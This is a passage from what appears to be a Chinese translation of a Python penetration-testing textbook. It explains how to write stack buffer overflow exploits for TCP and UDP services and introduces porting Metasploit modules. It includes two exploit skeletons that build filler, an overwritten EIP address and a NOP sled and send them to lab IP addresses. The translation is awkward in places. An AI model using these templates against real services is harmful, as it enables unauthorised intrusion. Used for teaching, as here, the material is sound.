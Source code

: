 这种形式的攻击是你遇到的最罕见的，因为它通常不会授予你任何额外的权利。在创建此类漏洞利用时，通常要查看通过白名单程序与用户级权限授予您的其他访问权限。请记住，这种类型的攻击比恶意文件、TCP 或 UDP 服务更难编写。另一方面，您可能会编写的最常见的攻击是 TCP 服务攻击。

## 利用 TCP 服务开发系统

大多数情况下，您会遇到可以通过 TCP 利用的服务。这意味着，为了进行分析，您必须设置一个测试盒，该测试盒具有豁免权或其他调试器，并且服务正在运行。您必须对该服务附加豁免权，并像以前一样测试您的漏洞。

```
import sys, socket, strut
rhost = "192.168.195.159"
lhost = "192.168.195.169"
rport = 23
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
shell =() #Code to insert
# NOPs to fill the remaining space
exploit = fill + eip + offset + shell
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.sendto(exploit, (rhost, rport))
```

如果[第 7 章](07.html#aid-1NA0K2 "Chapter 7. Cracking the Perimeter with Python")*用 Python*破解外围的 TFTP 服务容易受到潜在的缓冲区溢出攻击，我们会考虑为 UDP 服务创建漏洞攻击。

## 利用 UDP 服务开发系统

为 UDP 服务生成漏洞非常类似于 TCP 服务。唯一的区别是您使用的是不同的通信协议。

```
import sys, socket, strut
rhost = "192.168.195.159"
lhost = "192.168.195.169"
rport = 69
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
shell =() #Code to insert
# NOPs to fill the remaining space
exploit = fill + eip + offset + shell
client = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
client.sendto(exploit, (rhost, rport))
```

现在，您已经了解了您可能编写的最常见的漏洞利用类型的基础知识，让我们看看如何反转 Metasploit 模块。

# 反向 Metasploit 模块

很多时候您可能会发现某个服务是可利用的，但 Metasploit 模块不是为利用该服务版本或特定操作系统版本而构建的。这并不少见，只要回想一下之前编写的漏洞。根据可能引用的 DLL，可能不会针对特定操作系统更新模块。此外，如果操作系统的更新版本问世，并且该程序或服务仍然可行，则可能需要扩展该模块。
